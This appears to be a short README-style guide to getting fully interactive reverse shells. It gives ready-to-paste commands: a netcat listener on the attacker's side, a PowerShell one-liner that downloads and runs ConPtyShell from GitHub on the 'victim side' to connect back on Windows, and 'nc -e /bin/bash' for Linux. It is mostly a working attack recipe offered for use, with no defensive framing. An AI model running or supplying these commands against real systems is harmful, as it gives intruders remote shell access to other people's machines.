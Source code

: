 # Fully-Interactive-Reverse-Shell
## Netcat ~ "the Swiss army knife of networking"

## For Windows:

ConPtyShell- a Fully Interactive Reverse Shell for Windows systems.
## Requirements
Client Side: Windows version >= 10 / 2019 1809 (build >= 10.0.17763)
Server Side: any tcp listener, i.e. netcat

#### Via Powershell
## Procedure-
#### Server Side:
```
stty raw -echo; (stty size; cat) | nc -lvnp "port" -s "ip"
```
```
example : stty raw -echo; (stty size; cat) | nc -lvnp 88 -s 10.0.0.2
```
#### Client Side:
```
IEX(IWR https://raw.githubusercontent.com/antonioCoco/ConPtyShell/master/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell "ip" "port"
```
#### NOTE: 
For client/victim side~ Command should be initiated in powershell, not cmd
```
example : IEX(IWR https://raw.githubusercontent.com/antonioCoco/ConPtyShell/master/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell 10.0.0.1 88
```

## For Linux
## Requirements
ClientSide : linux with netcat installed(most linux have nc)
ServerSide : any tcp listener like, i.e. netcat (prefered machine - Kali/Parrot OS)

Note: if client side netcat is not installed, use :
```
brew install netcat
```

#### For mac :
Use-
```
brew install netcat
```
#### Via terminal
## Procedure-
#### Server Side:
```
nc -lnvp "port" -s "ip"
```
#### Client Side:
```
nc -e /bin/bash "ip" "port"
```
